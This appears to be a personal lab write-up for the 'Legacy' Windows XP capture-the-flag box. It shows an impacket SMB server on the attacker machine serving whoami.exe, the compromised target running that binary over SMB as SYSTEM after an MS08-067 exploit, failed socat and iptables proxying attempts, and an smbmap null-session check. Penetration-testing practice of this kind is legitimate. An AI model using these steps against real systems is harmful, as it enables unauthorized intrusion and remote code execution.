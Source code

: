 
| **INDEX**                         |
| --------------------------------- |
| impacket-smbserver                |
| socat                             |
| iptables                          |
| smb exploit using ms08_067_netapi |


I was able to start the smbserver using the following command
```
$ impacket-smbserver a /usr/share/windows-resources/binaries/
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.4,1033)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[-] TreeConnectAndX not found WHOAMI.EXE
[-] TreeConnectAndX not found WHOAMI.EX
[*] Closing down connection (10.10.10.4,1033)
[*] Remaining connections []
[*] Incoming connection (10.10.10.4,1036)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa

```

This was to host whoami.exe on kali machine. On a target machine, I ran the following command to check the username. 

```
\\10.10.16.5\a\whoami.exe
\\10.10.16.5\a\whoami.exe
NT AUTHORITY\SYSTEM

```

This was the Windows XP box. Easy to pwn. I failed to fireout how to setup a proxy that i can monitor when the payload is being sent on port 445. I tried socat and iptables but it didn't workl

I setup an iptable rule to forward all the traffic received on port 4444 to my burp 8080 but didn't work. I also tried to use 
```
socat TCP-LISTEN:4444,fork TCP:127.0.0.1:8080
```

The above command listen on port 4444 and forward the traffic to burp on port 8080. Didn't work. 

##### SMB Null Auth
```
smbmap -H <IP>
```